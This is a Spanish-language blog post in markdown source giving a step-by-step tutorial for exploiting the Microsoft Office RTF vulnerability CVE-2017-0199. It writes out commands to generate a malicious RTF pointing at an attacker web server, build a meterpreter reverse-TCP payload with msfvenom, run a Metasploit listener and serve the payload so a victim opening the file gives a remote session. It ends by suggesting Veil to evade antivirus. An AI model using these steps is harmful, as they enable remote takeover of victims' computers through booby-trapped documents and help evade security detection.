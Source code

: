 ```yaml
---
layout: post
title: "ATAQUE CON ARCHIVOS MALICIOSOS RTF (CVE-2017-0199)"
quote: "Hacking"
image:
      url:/assets/images/fondo.jpg
video: false
comments: true
theme_color: 302F2D
---
```

Empecemos por saber cómo funciona esta vulnerabilidad, a principios de abril se hablaba sobre este exploit que afecta a todas las versiones 
de Microsoft office, con solo abrir el documento en Word permite la ejecución de código sin requerir de que las macros se encuentren habilitadas, 
el exploit se conecta a un servidor remoto controlado por el atacante, descarga un archivo .hta y lo ejecuta.

### POC CVE-2017-0199

Creamos una carpeta e ingresamos a este directorio desde la terminal y ponemos siguiente:
```
git clone  https://github.com/bhdresh/CVE-2017-0199
```
1.-Nos vamos al directorio donde hemos descargado el repositorio e ingresamos a la carpeta
{% include image.html url="http://bit.ly/2p5wDSj" %}

2 Damos permisos de ejecución con `chmod +x`. 
{% include image.html url="http://bit.ly/2pOHeQH" %}

3.-Generamos nuestro archivo malicioso RTF:
```
python cve-2017-0199_toolkit.py -M gen -w uthh.rtf -u http://192.168.101.12/logo.doc
```
{% include image.html url="http://bit.ly/2qMi7ey" %}


4.- Movemos el archivo RTF`(uthh.rtf)` al Escritorio 
{% include image.html url="http://bit.ly/2pJxerA" %}


5.-Ahora abrimos otra Terminal y generamos nuestro payload:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.1 LPORT=4444 -f exe > /tmp/shell.exe
```
{% include image.html url="http://bit.ly/2qMeLZg" %}


6.-Iniciamos un handler de escucha:
```
msfconsole -x "use multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.101.12; run"
```
Vemos que ya se encuentra a la escucha
{% include image.html url="http://bit.ly/2p5bQ1m" %}

7.-Montaremos un servidor web para que cuando la víctima abra el archivo nosotros obtendremos una session remota.

Nos vamos a la terminal anterior donde se encuentra nuestro repositorio y ponemos lo  siguiente:
```
python cve-2017-0199_toolkit.py -M exp -e http://192.168.101.12/shell.exe -l /tmp/shell.exe
```
{% include image.html url="http://bit.ly/2qAUdWQ" %}
Veremos que el exploit ya está esperando una conexión de la víctima y que está corriendo en el puerto 80.

8.-Pasamos el archivo RTF(uthh.rtf) que anteriormente movimos al escritorio a una maquina Windows.
Una vez que estemos en Windows abrimos el archivo `uthh.rtf`. 
{% include image.html url="http://bit.ly/2pOS72W" %}
{% include image.html url="http://bit.ly/2q8k0pV" %}

9.- Con tan solo abrir el documento RTF, en la máquina del atacante hemos obtenido una sesision y pues ya estamos dentro de la máquina de la víctima.
{% include image.html url="http://bit.ly/2qM6Tqr" %}
{% include image.html url="http://bit.ly/2pi8V17" %}

<div class="message">
Nota: He utilizado msfvenom por lo cual es detectado por la mayoria de los Antivirus lo ideal seria utlizar Veil   
</div>

By Torres Happy Hacking
